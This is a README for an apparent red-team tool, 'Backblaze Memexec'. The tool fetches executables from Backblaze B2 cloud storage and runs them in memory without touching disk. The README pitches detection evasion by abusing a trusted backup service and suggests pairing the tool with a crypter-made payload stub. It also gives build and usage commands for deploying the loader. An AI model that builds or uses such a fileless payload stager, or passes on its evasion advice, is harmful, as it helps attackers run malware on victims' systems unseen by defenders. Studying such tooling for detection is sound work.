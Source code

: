 # Backblaze Memexec 

this is a POC redteaming Go utility that downloads any executable directly from Backblaze B2 cloud storage and runs them in memory without ever saving them to disk.

## Features
- Download payloads from a corporate trusted source, if the target is using this as a backup service, it will be very hard to detect.
- Execute payloads in memory without ever saving them to disk (especially useful if the payload you're executing is a stub of your executable created by https://github.com/carved4/gocrypter or a similar tool)
- Fully modular, payloads can be changed with the ease of a GUI upload to backblaze.
- Backblaze does not require a credit card or insecure email service to sign up.
- Bucket can be switched out easily via changing the hardcoded account ID, application key, and bucket name.
## Installation

```bash
go get github.com/carved4/backblaze-memexec
# Or clone the repository and build it manually
git clone https://github.com/carved4/backblaze-memexec.git
cd backblaze-memexec
# change the account ID, application key, and bucket name in the code.
go build -ldflags="-w -s" -trimpath -o backblaze.exe
# or for linux
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o backblaze
```

## Usage

```bash
# Runs the default executable (test.exe) from the default bucket AFTER changing the account ID, application key, and bucket name in the code. 
# also, I recommend changing the DefaultExecutable in main.go from 'test.exe' to whatever the name of your file is before building so you don't have to pass in CLI args.
./backblaze.exe

# Run a specific executable from the default bucket
./backblaze.exe -file my_program.exe
# or
./backblaze.exe my_program.exe

# Run with arguments
./backblaze.exe -args "arg1,arg2,arg3"

# Run a different executable with arguments
./backblaze.exe -file other_program.exe -args "arg1,arg2,arg3"
# or
./backblaze.exe other_program.exe -args "arg1,arg2,arg3"
```

## How It Works

uses the [blazer](https://github.com/kurin/blazer) library to interact with Backblaze B2 API and download files. For in-memory execution, it uses [go-memexec](https://github.com/amenzhinsky/go-memexec) which allows executing binaries directly from memory without saving them to disk.

The entire process happens as follows:
1. Connect to Backblaze B2 using hardcoded credentials
2. Download the specified executable file (or test.exe by default) into memory
3. Use go-memexec to execute the file directly from memory
4. Pass any specified arguments to the executed process

## Security Considerations

- Obviosuly do not use an important (non throwaway) bucket for this, as reverse engineering of the binary may yield the plaintext creds
- The tool does not verify the integrity of downloaded executables
- I am not responsible for your actions, do not use this for malicious purposes.

## Requirements

- Go 1.18 or higher
- Valid Backblaze B2 bucket with appropriate executables

## License

[MIT License](LICENSE) 
